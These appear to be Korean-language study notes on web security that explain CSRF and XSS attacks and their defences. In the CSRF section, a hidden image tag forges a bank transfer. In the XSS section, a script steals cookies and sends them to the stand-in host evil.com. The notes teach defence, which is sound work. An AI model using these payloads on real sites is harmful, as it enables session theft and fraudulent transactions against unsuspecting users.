 # 4. CSRF

---

## 0. CSRF, XSS

웹 보안에서 흔히 발생하는 두 가지 주요 공격 유형

## 1. CSRF란?

### 정의 / 특징

- Cross-Site Request Forgery
- 이미 인증된 웹사이트에 대해 사용자의 의도와는 무관하게 악의적인 요청을 발생시키는 공격
- 쿠키의 자동 전송 특성을 악용한 공격

### 작동 방식

1. 사용자가 정상 웹사이트에 로그인하여 인증 토큰(예: 쿠키)을 받음
2. 사용자가 다른 탭이나 창에서 악성 웹사이트 방문
3. 악성 웹사이트에는 정상 웹사이트에 요청을 보내는 이미지, 링크, 자바스크립트 등을 포함시켜, 사용자가 요청을 보내도록 유도
4. 사용자의 브라우저는 이 요청을 자동으로 인증 토큰과 함께 보내게 되어, 원래 사이트는 이를 정상적인 사용자의 요청으로 인식

### 작동 예시

1. **사용자 로그인**:
    - 사용자가 `mybank.com`에 로그인하고, 온라인 뱅킹 서비스를 이용합니다.
    - 로그인 성공 시, 사용자의 브라우저에는 `mybank.com`으로부터 인증 쿠키가 저장됩니다.
2. **악성 웹사이트 방문**:
    - 사용자가 `mybank.com`에 로그인한 상태로, 별도의 탭에서 악성 웹사이트 `evil.com`을 방문합니다.
    - `evil.com`에는 다음과 같은 HTML 코드가 있습니다:

        ```html
        <img src="https://mybank.com/transfer?to=attacker&amount=1000" width="0" height="0">
        ```

    - 이 코드는 `mybank.com`에 자금 이체를 요청하는 이미지를 불러오는 것처럼 보입니다.
3. **악성 요청 전송**:
    - 사용자의 브라우저는 `evil.com`에 있는 이미지를 불러오려고 시도합니다.
    - 이 과정에서 `mybank.com`으로 돈을 이체하는 요청이 포함된 "이미지"를 불러오게 됩니다.
    - 사용자의 브라우저는 이미 `mybank.com`에 인증된 상태이므로, 이 요청은 사용자가 인증된 것처럼 처리됩니다.
4. **결과**:
    - `mybank.com`은 이 요청이 사용자로부터 온 것으로 인식하고, 공격자가 지정한 계좌로 1000달러를 이체합니다.

### 예방 방법

**사용자 차원**

- 사용하지 않는 웹 애플리케이션 로그아웃
- 여러 웹사이트 동시 사용 자제

**서버 차원**

- referer check
    - HTTP request header에서 referer 정보 확인 가능
    - 일반적으로 host와 referer 값이 일치
    - referer check만으로도 많은 공격을 방어할 수 있음
- SameSite 쿠키 속성 설정
    - 쿠키가 동일 출처 요청에만 포함되도록 함
- CSRF 토큰 사용
    - 서버에 들어온 요청이 실제 서버에서 허용한 요청이 맞는지 확인하기 위한 토큰
- 사용자의 중요한 결정에 대한 추가적인 인증 요구
    - 비밀번호 변경이나 중요한 정보 업데이트 시 추가적인 인증 절차 요구

## 2. XSS란?

### 정의 / 특징

- Cross-Site Scripting
- 공격자가 웹 페이지에 악성 스크립트를 주입하여 사용자의 브라우저에서 실행되게 만드는 공격

### 작동 방식

1. 공격자는 악성 스크립트를 포함한 데이터를 웹 애플리케이션에 입력
2. 이 악성 데이터는 서버에서 필터링 또는 이스케이프 처리 없이 다른 사용자에게 전달
3. 다른 사용자의 브라우저가 이 데이터를 받아들이고, 내장된 스크립트가 실행
4. 이 스크립트는 사용자의 쿠키, 세션 토큰을 탈취하거나, 사용자를 대신하여 악의적인 행동을 수행할 수 있음

### 작동 예시

**예시 시나리오: 블로그 웹사이트의 댓글 섹션**

상황: `exampleblog.com`은 사용자들이 글을 읽고 댓글을 달 수 있는 블로그 사이트입니다.

**1단계: 악성 스크립트 작성**

- 공격자는 `exampleblog.com`의 특정 글에 댓글을 답니다.
- 이 댓글에는 다음과 같은 악성 JavaScript 코드가 포함되어 있습니다:

    ```html
    <script>
      var cookies = document.cookie;
      fetch('https://evil.com/steal?cookies=' + cookies);
    </script>
    ```


**2단계: 블로그 사이트의 취약점**

- `exampleblog.com`은 사용자가 작성한 댓글을 필터링 하거나 적절히 이스케이프 처리하지 않습니다.
- 결과적으로, 공격자가 작성한 댓글이 그대로 블로그에 게시됩니다.

**3단계: 악성 스크립트 실행**

- 다른 사용자가 해당 글을 방문할 때, 페이지에 포함된 악성 스크립트가 그들의 브라우저에서 실행됩니다.
- 실행된 스크립트는 사용자의 쿠키를 탈취하고, 이를 `evil.com`의 서버로 전송합니다.

**4단계: 정보 탈취**

- `evil.com`은 전송된 쿠키를 받아 사용자의 세션 정보를 탈취합니다.
- 이 정보를 사용하여 공격자는 `exampleblog.com`에서 해당 사용자의 계정으로 로그인할 수 있습니다.

### 예방 방법

- HTML, JavaScript, CSS에서 안전하지 않은 문자를 이스케이프 처리
- `CSP`를 설정하여, 승인되지 않은 출처의 스크립트 실행 차단
    - CSP(컨텐츠 보안정책): 교차 사이트 스크립팅([XSS](https://developer.mozilla.org/ko/docs/Glossary/Cross-site_scripting))과 데이터 주입 공격을 비롯한 특정 유형의 공격을 탐지하고 완화하는 데 도움이 되는 추가 보안 계층
    - HTTP 헤더 설정

        ```
        	Content-Security-Policy: default-src 'self'; script-src 'self' https://apis.google.com; style-src 'self' 'unsafe-inline'; img-src 'self' https://images.example.com;
        ```

- 쿠키에 **`HttpOnly`** 속성을 설정하여 JavaScript를 통한 접근 방지
    - HttpOnly 속성이 설정된 쿠키는 JavaScript를 통해 직접 접근 불가
    - 즉, document.cookie API를 사용하여 이러한 쿠키를 읽거나 수정하는 것이 불가능